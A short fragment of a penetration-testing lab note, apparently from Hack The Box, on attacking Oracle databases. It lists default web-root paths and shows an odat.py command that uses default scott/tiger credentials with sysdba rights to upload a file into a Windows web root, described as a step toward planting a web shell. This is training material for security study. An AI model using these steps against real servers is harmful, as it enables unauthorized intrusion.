 ```sh
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
...SNIP...

```

## Upload Files / Webschell can be possible with this:
Another option is to upload a web shell to the target. However, this requires the server to run a web server, and we need to know the exact location of the root directory for the webserver. Nevertheless, if we know what type of system we are dealing with, we can try the default paths, which are:

OS	Path
- Linux	/var/www/html
- Windows	C:\inetpub\wwwroot

```shell 
 echo "Oracle File Upload Test" > testing.txt
detau@htb[/htb]$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server                                                                                                  
[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt f
```